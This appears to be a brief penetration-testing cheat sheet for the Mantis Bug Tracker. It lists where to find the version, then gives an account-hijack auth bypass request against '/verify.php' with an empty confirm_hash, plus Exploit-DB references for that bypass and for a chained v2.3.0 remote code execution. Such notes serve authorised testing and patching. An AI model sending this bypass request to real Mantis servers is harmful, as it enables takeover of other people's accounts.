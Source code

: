 # mantis bugtracker

## Check Version (Authenticated)

```bash
Manage > (Help icon)
/manage_overview_page.php
```

## v1.3.0 / 2.3.0 Account Hijack (Auth Bypass)

* https://www.exploit-db.com/exploits/41890

```bash
/verify.php?id=1&confirm_hash=
```

## v2.3.0 RCE (with account hijack)

* https://www.exploit-db.com/exploits/48818 (update headers)
